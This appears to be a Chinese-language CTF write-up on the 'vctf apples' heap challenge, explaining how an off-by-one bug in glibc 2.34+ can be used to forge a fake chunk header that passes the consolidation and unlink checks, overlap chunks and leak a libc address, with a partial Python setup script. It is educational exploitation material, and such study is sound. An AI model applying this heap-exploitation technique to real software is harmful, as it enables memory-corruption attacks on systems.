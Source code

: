 ```yaml
---
date: 2024-3-25
tag:
  - pwn
  - heap
---
```


# vctf apples leak libc操作复现(高版本的overlapping)

> 题目中存在off_by_one libc版本2.34以上我们没办法使用常规的overlapping 泄露libc地址
>
> 所以我们要精心构造一个chunk head来绕过新版本的检查机制 实现leak libc的操作
>
> 文章中我们先讲原理 在最后会将Arahat0师傅的脚本给出来()

## 安全检查机制

- 2.34下的合并检查机制

  - 检查size是否对得上

  ![image-20240325110240440](https://awaqwqa.github.io/img/vctf_leak_libc/image-20240325110240440.png)

  - unlink检查

    ![image-20240325110339049](https://awaqwqa.github.io/img/vctf_leak_libc/image-20240325110339049.png)

## 利用原理

> 这里先简单说一下我们要干什么
>
> 后面详细说一下我们的利用流程

- 构造一个chunkheader 让它的size fd bk都符合检查机制

## 利用

### 构造chunk header

> 主要是构造合法的size fd bk 我们把我们构造的chunk叫做fake chunk

- 代码

  ```python
  add(0x410, "a" * 8)  # 0  290
  add(0x100, "a" * 8)  # 1  6b0
  add(0x430, "a" * 8)  # 2  7c0
  add(0x430, "a" * 8)  # 3  c00
  add(0x100, "a" * 8)  # 4  1040
  add(0x480, "a" * 8)  # 5  1150
  add(0x420, "a" * 8)  # 6  15e0
  add(0x10, "a" * 8)  # 7  1a10
  
  free(0)
  free(3)
  free(6)
  # 触发合并 然后合成一个0x860的大chunk 让我们可以分割
  # 并且我们的fd和bk在0x430+16字节的位置 也就是0x440位置存在fd和bk
  free(2)
  # add一个比chunk 0 chunk6都大的chunk这样就会去分割0x860chunk 然后我们控制我们的payload 设置一个size到原本size的地方
  # 这样fd和bk分别指向chunk 0 和chunk 6 这样我们可以构造一个 合法的chunk head头
  add(0x450, b"a" * 0x438 + p16(0x551))  # 0
  ```